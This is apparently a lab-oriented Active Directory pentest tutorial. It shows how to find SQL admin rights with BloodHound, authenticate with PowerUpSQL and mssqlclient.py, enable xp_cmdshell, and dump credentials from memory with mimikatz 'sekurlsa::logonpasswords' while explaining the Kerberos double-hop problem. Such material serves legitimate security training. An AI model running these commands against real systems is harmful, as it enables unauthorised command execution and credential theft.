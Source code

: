 ### SQL Server Admin 

Often we will find SQL Server. The tool [Snaffler](https://github.com/SnaffCon/Snaffler) can help us finding credentials for this. Also, with BloodHound we can check for **SQL Admin Rights** in the **Node Info** or with this query:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

With the previous attacks (ACL) and the [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) (check this [cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)) we can authenticate:
```console
PS C:\zeropio>  Import-Module .\PowerUpSQL.ps1
PS C:\zeropio>  Get-SQLInstanceDomain
PS C:\zeropio>  Get-SQLQuery -Verbose -Instance "<IP>,<PORT>" -username "<DOMAIN LOWERCASE>\<USER>" -password "<PASSWORD>" -query 'Select @@version'
```

Or use the [mssqlclient.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py) from Linux:
```console
zero@pio$ mssqlclient.py <DOMAIN>/<USER>@<IP> -windows-auth
```

Once connected we can type `help` to see the aviable commands. For example, we can enabled commands:
```console
SQL > enable_xp_cmdshell
SQL > xp_cmdshell whoami /priv
```

## Kerberos "Double Hop" 

There is a issue known as *Double Hop* that occurs when hops between two or more hosts. Often occurs when using WinRM or Powershell since the default authentication only provides a ticket. This will cause issues when performing lateral movement. When using WinRM to authenticate to two or more connections the user's password is never cached. When we use Kerberos we are not using a password for authentication. When a password is used, the NTLM hash is stored in the session. 

If we authenticate to a remote host via WinRM and use mimikatz as **backupadm** we won't see any credentials in memory for other users.
```console
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 

mimikatz(commandline) # privilege::debug 
mimikatz(commandline) # sekurlsa::logonpasswords
```

There are process running under **backupadm** (like **wsmprovhost.exe**, which is the process that spawns a Windows Remote Powershell):
```console
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
```
